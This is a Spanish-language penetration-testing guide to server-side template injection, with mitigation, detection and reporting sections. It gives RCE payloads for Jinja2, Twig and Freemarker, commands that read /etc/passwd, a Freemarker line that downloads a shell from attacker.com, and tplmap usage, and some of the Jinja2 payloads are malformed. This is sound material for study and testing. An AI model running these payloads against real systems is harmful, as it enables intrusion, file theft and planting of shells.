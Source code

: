 # Server-Side Template Injection (SSTI)

## Resumen

SSTI es una vulnerabilidad que permite a un atacante inyectar código en plantillas procesadas por el servidor, ejecutándolo con los privilegios de la aplicación. A través de SSTI se puede obtener RCE, acceder a variables de entorno, leer archivos sensibles y comprometer la infraestructura completa.

## Contexto

Las aplicaciones web que usan motores de plantillas (Jinja2, Twig, Velocity, ERB, Freemarker, Razor, Mustache, etc.) construyen vistas combinando HTML con datos del servidor. Si no se filtra correctamente el input que llega a las plantillas, un atacante puede insertar expresiones en el template que el motor evalúa en el servidor antes de renderizar la respuesta.

Entornos comunes:

- **Python:** Jinja2, Django Templates
- **Java:** Freemarker, Velocity, Thymeleaf
- **PHP:** Twig, Smarty
- **Ruby:** ERB
- **.NET:** Razor

## Metodología de Ataque

### 1. Identificación de Puntos de Inyección

- Parámetros visibles en plantillas: `{{ user_input }}`, `{% include user_input %}`
- Campos de entrada en formularios, cabeceras, cookies, variables de URL
- Mensajes de error que reflejan directamente templates

### 2. Pruebas Manuales Básicas

1. **Prueba de delimitadores**:
   - `{{7*7}}` → debe renderizar `49`
   - `{% if 7>3%}true{% endif %}` → `true`
2. **Confirmación de motor**:
   - Jinja2: `{{ config.items() }}`
   - Freemarker: `${"freemarker".getClass().forName("java.lang.Runtime")}`
3. **Proof of Concept RCE**:
   - Jinja2: `{{ ''.__class__.__mro__.__subclasses__()('id',shell=True,stdout=-1).stdout.read() }}`
   - Twig: `{{ _self.registerUndefinedFilterCallback('system') }}{{ 'id'|system }}`

### 3. Explotación Avanzada

- **Lectura de archivos**:
  - Jinja2: `{{ ''.__class__.__mro__.__subclasses__()('cat /etc/passwd',shell=True,stdout=-1).stdout.read() }}`
- **Carga dinámica de módulos**:
  - Freemarker: `${Runtime.getRuntime().exec("wget attacker.com/shell -O /tmp/shell")}`
- **Pivoting interno**: invocar endpoints internos, metadatos de nube o bases de datos ocultas.

## Pruebas Manuales

```http
GET /hello?name={{7*7}} HTTP/1.1
Host: victim.com
```

- Si la respuesta incluye `49`, hay inyección.

```http
GET /hello?name={{config.items()}} HTTP/1.1
```

- Revela configuración interna.

## PoC

1. Identificar template vulnerable: `/?page=home`
2. Inyectar expresión: `/?page={{7*7}}`
3. Observar `49` en la respuesta
4. Ejecutar comando:

```
/?page={{ ''.__class__.__mro__[2].__subclasses__()[40]('id',shell=True,stdout=-1).stdout.read() }}
```

## Automatización

- **tplmap**:

```bash
tplmap -u "https://victim.com/?page=home" --data "page=FUZZ" --batch
```

- **Burp Suite Extension: SSTI Hunter** para escaneo de payloads específicos de cada motor.

## Explotación / Impacto

- **RCE completo** con privilegios de aplicación.
- **Lectura de archivos sensibles**: `/etc/passwd`, `config.php`, claves SSH.
- **Despliegue de shells** y malware persistente.
- **Exfiltración de credenciales y secretos** de nube.

## Detección

- Monitorizar plantillas con evaluación de expresiones dinámicas.
- Revisar logs de errores que incluyan traces de motor de plantillas.
- Analizar respuestas que contengan caracteres de delimitadores (`{{`, `}}`, `{%`, `%}`).

## Mitigación

1. **Whitelist de funciones** y deshabilitar ejecución de código en plantillas.
2. **Escapado estricto** de cualquier input inyectado en templates.
3. **Uso de motores seguros** que no permitan ejecución de expresiones arbitrarias (Mustache sin lógica).
4. **Validación de input** por whitelist de patrones.
5. **Principio de menor privilegio**: plantillas sin acceso a APIs de sistema o runtime.

## Reporte

**Título:** Server-Side Template Injection – Ejecución Arbitraria de Código
**Resumen Ejecutivo:** El parámetro `page` se inyecta sin filtrar en el template, permitiendo ejecutar código en el servidor y comprometer la infraestructura.
**Pasos de Reproducción:**

1. `GET /?page={{7*7}}` → respuesta `49`.
2. Inyección RCE con llamada a `id`.
   **Mitigación Recomendada:** Escapar y validar input, deshabilitar expresiones peligrosas en motor de plantillas, usar motor sin lógica.
